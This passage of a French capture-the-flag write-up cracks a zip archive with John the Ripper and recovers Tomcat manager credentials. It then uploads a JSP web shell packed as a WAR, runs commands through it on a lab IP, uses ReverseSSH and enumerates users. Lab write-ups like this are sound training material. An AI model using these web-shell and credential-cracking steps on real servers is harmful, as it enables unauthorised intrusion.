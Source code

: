 ```plain
   172359  2021-09-06 21:09   web.xml
---------                     -------
   214812                     10 files
```

Jerrymouse
----------

On passe l'archive à *zip2john* qui nous transforme cela en un beau hash de 3km puis à John the Ripper himself avec la wordlist *Rockyou* qui nous retrouve le mot de passe *@administrator\_hi5*.  

Le fichier *tomcat-users.xml* contient comme attendu les identifiants pour la zone *manager* :  

```html
<role rolename="manager-gui"/>
<user username="manager" password="melehifokivai" roles="manager-gui"/>

<role rolename="admin-gui"/>
<user username="admin" password="melehifokivai" roles="admin-gui, manager-gui"/>
```

Dès lors on peut uploader un shell au format WAR. Je n'avais pas envie de lancer un Kali + Metasploit juste pour ça, il existe différents outils plus basiques mentionnés sur [HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat#manual-method-web-shell).  

L'archiveur jar n'était pas présent sur ma machine mais j'ai trouvé un petit paquet *fastjar* pour ma distrib openSUSE (*zypper in fastjar*).  

```bash
$ mkdir webshell
$ cp index.jsp webshell
$ cd webshell
$ fastjar -cvf ../webshell.war *
```

Une fois le WAR uploadé j'obtiens mon shell à cette adresse : *http://192.168.56.12:8080/webshell/index.jsp?cmd=uname+-a*  

Let's take a look
-----------------

Un coup de [ReverseSSH](https://github.com/Fahrj/reverse-ssh) (mon nouveau meilleur ami) plus tard je fouille dans ce système qui a deux utilisateurs non privilégiés.  

```plain
randy:x:1000:1000:randy,,,:/home/randy:/bin/bash
jaye:x:1002:1002::/home/jaye:/bin/sh
```

Je peux zieuter dans le dossier de *Randy* :  

```plain
drwxr-xr-x 2 randy randy 4096 Sep 16 17:23 Desktop
drwxr-xr-x 2 randy randy 4096 Sep 16 17:23 Documents
drwxr-xr-x 2 randy randy 4096 Sep 16 17:23 Downloads
drwxr-xr-x 2 randy randy 4096 Sep 16 17:23 Music
-rw-r--r-- 1 root  root   283 Sep 20 19:56 note.txt
drwxr-xr-x 2 randy randy 4096 Sep 16 17:23 Pictures
drwxr-xr-x 2 randy randy 4096 Sep 16 17:23 Public
-rwxr-xr-x 1 root  root   210 Sep 20 19:48 randombase64.py
drwxr-xr-x 2 randy randy 4096 Sep 16 17:23 Templates
-rw-rw-r-- 1 randy randy   33 Sep 17 02:09 user.txt
drwxr-xr-x 2 randy randy 4096 Sep 16 17:23 Videos
```
